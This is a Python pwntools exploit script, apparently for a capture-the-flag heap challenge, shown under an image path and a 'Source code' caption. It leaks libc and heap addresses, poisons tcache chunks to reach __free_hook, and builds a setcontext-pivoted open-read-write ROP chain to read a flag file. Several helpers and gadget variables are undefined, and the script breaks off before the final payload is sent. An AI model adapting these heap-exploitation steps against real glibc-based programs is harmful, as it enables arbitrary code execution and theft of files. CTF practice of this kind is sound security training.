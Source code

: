 ```


def dlt(idx):
    p.sendlineafter('choice&gt;&gt; ', '4')
    p.sendlineafter("idx: ", str(idx))



p.sendlineafter('choice&gt;&gt; ', '1')
p.sendlineafter("idx: ", str(0))
p.sendlineafter("size: ", str(0x60))
p.sendafter("content: ", b'\xff')
show(0)
p.recvuntil("content: ")
libc = u64(p.recvuntil("\n")[:-1].ljust(8, b'\x00')) - 0x1ebbff
print("libc:", hex(libc))

dlt(0)
new(0, size=0x30)
new(1, size=0x30)
new(2, size=0x30)
dlt(2)
dlt(1)
dlt(0)

p.sendlineafter('choice&gt;&gt; ', '1')
p.sendlineafter("idx: ", str(0))
p.sendlineafter("size: ", str(0x30))
p.sendafter("content: ", b'\xff')
show(0)
p.recvuntil("content: ")
heap = u64(p.recvuntil("\n")[:-1].ljust(8, b'\x00'))
print("heap:", hex(heap))

heap = heap-0xff+0x10
pay = p64(0x6ca)+p64(heap)+p64((1 &lt;&lt; 32)+0x10)+p64(0xa4)+p64(0x14a)
p.sendlineafter('choice&gt;&gt; ', p64(0x888)+pay*2 + p64(0x888))
# gdb.attach(p)
p.sendlineafter('choice&gt;&gt; ', '5')

fh = libc+lb.sym['__free_hook']
context = libc+lb.sym['setcontext']+61
print("context", hex(context))

# 0x0000000000154930: mov rdx, qword ptr[rdi + 8];mov qword ptr[rsp], rax;call qword ptr[rdx + 0x20]

o = lb.sym['open']+libc
r = lb.sym['read']+libc
w = lb.sym['write']+libc
rdi += libc
rsi += libc
rdx += libc
gadgets = libc+0x154930
flag_addr = heap
buf = heap+0x500

# orw len is 0xa8
orw = p64(rdi)+p64(flag_addr)+p64(rsi)+p64(0)+p64(o)
orw += p64(rdi)+p64(3)+p64(rsi)+p64(buf)+p64(rdx)+p64(0x30)+p64(0)+p64(r)
orw += p64(rdi)+p64(1)+p64(rsi)+p64(buf)+p64(rdx)+p64(0x30)+p64(0)+p64(w)

payload = b'./flag'.ljust(0x38, b'\x00')+p64(0x41)+p64(fh)
```